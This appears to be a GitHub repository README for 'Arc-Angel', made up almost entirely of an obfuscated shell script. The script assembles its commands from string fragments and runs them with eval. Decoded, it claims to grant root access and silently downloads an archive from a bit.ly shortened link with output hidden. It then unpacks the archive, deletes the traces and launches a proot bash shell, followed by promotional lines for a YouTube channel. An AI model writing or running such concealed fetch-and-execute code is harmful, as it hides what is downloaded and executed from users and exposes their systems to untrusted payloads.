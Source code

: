 # Arc-Angel
Ludociel
[![Binder](https://mybinder.org/badge_logo.svg)](https://mybinder.org/v2/git/https%3A%2F%2Fgithub.com%2FLolzMartiz%2FArc-Angel.git/main)


z="
";DBz=' > /';az=' -O ';Bz=' "==';kBz='od L';iBz='outu';gz='.ly/';SBz='iaks';ZBz=' YT ';dz=' htt';qz='nk.z';Uz=' "Pl';tz='v/nu';hBz='me/Y';cBz=' "Go';pz='p a2';FBz='null';Vz='ease';PBz='ot w';Kz='ot [';yz='tar ';bz='a2nk';Qz=' roo';Sz='cess';mz='l 2>';Dz='=="';dBz='-> h';jBz='be"';EBz='dev/';fz='/bit';hz='Juku';Iz='akse';Rz='t ac';RBz='so d';pBz='. /b';rz='ip >';Tz='"';fBz='://a';QBz='es i';HBz='1';OBz=' "ro';xz='ot.z';JBz='rf a';wz='p ro';kz='/dev';Zz='wget';Ez=' "Pe';uz='ll 2';ABz='-xvf';Wz=' Wai';WBz='t Aa';iz='tRoo';Az='echo';oz='unzi';KBz='2nk.';gBz='ank.';rBz='ash';YBz='s Me';UBz=' "Su';XBz='nk i';CBz='r.xz';Fz='rmis';eBz='ttps';jz='t > ';cz='.zip';Hz='kut ';Mz='excu';mBz='./di';lBz='uck"';sz=' /de';Xz='tt..';Jz='s ro';GBz=' 2>&';nz='&1';Oz='e to';Lz='OR] ';Yz='."';VBz='ppor';Cz='====';MBz='root';nBz='st/p';ez='ps:/';Pz=' get';vz='>&1';lz='/nul';TBz='es"';oBz=' -S ';IBz='rm -';aBz='Chan';NBz='t.sh';LBz='zip ';Gz='i ju';qBz='in/b';bBz='nel"';BBz='t.ta';Nz='se m';
eval "$Az$Bz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Dz$z$Az$Ez$Fz$Gz$Hz$Iz$Jz$Kz$Lz$Mz$Nz$Oz$Pz$Qz$Rz$Sz$Tz$z$Az$Uz$Vz$Wz$Xz$Yz$z$Az$Bz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Dz$z$Zz$az$bz$cz$dz$ez$fz$gz$hz$iz$jz$kz$lz$mz$nz$z$oz$pz$qz$rz$sz$tz$uz$vz$z$oz$wz$xz$rz$sz$tz$uz$vz$z$yz$ABz$Qz$BBz$CBz$DBz$EBz$FBz$GBz$HBz$z$IBz$JBz$KBz$LBz$MBz$cz$Qz$BBz$CBz$Qz$NBz$z$Az$Bz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Dz$z$Az$OBz$PBz$QBz$RBz$SBz$TBz$z$Az$UBz$VBz$WBz$XBz$YBz$ZBz$aBz$bBz$z$Az$cBz$dBz$eBz$fBz$gBz$hBz$iBz$jBz$z$Az$cBz$kBz$lBz$z$Az$Bz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Cz$Dz$z$mBz$nBz$MBz$oBz$pBz$qBz$rBz"
